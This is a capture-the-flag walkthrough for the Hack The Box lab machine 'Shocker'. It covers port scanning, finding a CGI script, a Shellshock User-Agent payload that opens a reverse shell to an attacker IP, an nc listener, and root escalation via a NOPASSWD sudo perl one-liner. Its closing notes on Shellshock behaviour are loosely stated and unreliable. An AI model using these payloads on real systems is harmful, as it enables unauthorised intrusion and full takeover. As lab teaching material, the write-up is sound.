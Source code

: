 ## 🧨 HTB: Shocker Walkthrough

### 📦 Machine Info
- **Name**: Shocker
- **OS**: Linux (Ubuntu 16.04)
- **Difficulty**: Easy
- **Exploits**: CVE-2014-6271 (Shellshock)
- **Ports**: 80 (HTTP), 2222 [SSH](SSH)

---

### 🔍 Recon
```bash
nmap -p- --min-rate 10000 -oA scans/alltcp 10.10.10.56
nmap -p 80,2222 -sCV -oA scans/scripts 10.10.10.56
```
- Port 80: Apache/2.4.18 (Ubuntu)
- Port 2222: OpenSSH 7.2p2 (Ubuntu 16.04)

---

### 🌐 [Web Enumeration](HTTP)
```bash
feroxbuster -u http://10.10.10.56 -x php,html -f -n
```
Discovered:
- `/cgi-bin/` directory (403 Forbidden)
- `/cgi-bin/user.sh` script (200 OK)

---

### 🐚 ShellShock (CVE-2014-6271) Exploit
Using Burp or curl to test ShellShock via `User-Agent`:
```http
User-Agent: () { :;}; echo; /bin/ping -c 1 <YOUR_IP>
```
For reverse shell:
```bash
User-Agent: () { :;}; /bin/bash -i >& /dev/tcp/<YOUR_IP>/443 0>&1
```
Start a listener:
```bash
nc -lvnp 443
```
Successful shell as:
```bash
shelly@Shocker:/usr/lib/cgi-bin$
```
Stabilize:
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
stty raw -echo; fg
```

---

### 🧼 Privilege Escalation
Check `sudo` permissions:
```bash
sudo -l
```
Output:
```bash
(root) NOPASSWD: /usr/bin/perl
```
Exploit:
```bash
sudo perl -e 'exec "/bin/bash"'
```
You now have a root shell:
```bash
root@Shocker:~# cat /root/root.txt
```

---

### 🛠 Beyond Root: Apache Config Quirk
Apache config snippet at `/etc/apache2/conf-enabled/serve-cgi-bin.conf`:
```apache
ScriptAlias /cgi-bin/ /usr/lib/cgi-bin/
```
The trailing slash is required. Without it, `/cgi-bin` returns 404.

To test:
```bash
curl http://10.10.10.56/cgi-bin/        # 200 OK
curl http://10.10.10.56/cgi-bin         # 404 Not Found
```

---

### 📚 Notes on ShellShock Behavior
- Only bash builtins (e.g. `echo`, `printf`) continue execution after initial eval.
- Binaries (e.g. `python3`, `perl`, etc.) often cause execution to halt.
- Chaining works best with pipes (`|`) rather than `;` or `&&`.


Let me know if you want walkthroughs for other boxes like Sunday, Sense, or Valentine 🧠💥

